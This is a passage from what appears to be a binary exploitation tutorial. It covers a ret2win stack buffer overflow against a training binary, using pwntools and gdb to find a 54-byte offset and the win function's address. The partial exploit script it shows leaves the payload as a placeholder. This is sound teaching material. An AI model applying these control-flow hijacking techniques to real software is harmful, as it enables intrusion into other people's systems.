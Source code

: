 Running the exploit with the `DEBUG` arg as follows:

`python3 exploit_script.py DEBUG`

will print the values wrapped in `log.info()` to the terminal (stdout). Doing so tells us that the pattern occurs `54` bytes into the pattern string. 

For us this means that we need to transmit **54 bytes** to the program to overwrite all the data on the stack to just before the return pointer.

We are now ready to overwrite the return pointer with the address of the `win` function which will cause the program to redirect execution from `vuln` to `win`. The address of `win` is just another 4 byte quantity like x86 instructions, in fact it is just the address of the **first** instruction in the win function. Since no [memory protections](https://github.com/Angus-C-git/SecSheets/blob/master/Binary%20Exploitation/Theory/MemoryProtections.md#binary-memory-protections) are enabled on the binary we can simply look at the address of wins' first instruction in gdb and then hardcode the value into our exploit.

To do so we repeat the process of disassembly from earlier,

> `pwndbg> disassemble win`

and take the first address `0x080491f6` on the far right which is the instruction `endbr32`. 

However we can do this in a **better** way with pwntools using the `ELF()` function as follows.

```python
from pwn import *

target_binary = process('./win_example')
elf = ELF('./win_example')

# attach to the running program in
# pwdbg and break at the main function
gdb.attach(target_binary, 'break main')

# receive the banner from the 
# program
log.info(target_binary.recvuntil('Here we goooooooooo...\n'))

# send pattern string to overflow buffer
# overflow_test = cyclic(100)
bytes_to_before_ret = cyclic_find(b'aaoa')		# 54
log.info(f'{bytes_to_before_ret}')				

# Hook the address of win from
# symbols
win_addr = elf.symbols['win']
log.info(f'Win @ {hex(win_addr)}')              # [*] Win @ 0x80491f6 


target_binary.sendline('TODO')
target_binary.interactive()
```

The `ELF` function lets us read symbols from the [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) executable format, with the assumption that symbols are present (see [stripped binary](https://en.wikipedia.org/wiki/Stripped_binary)).   
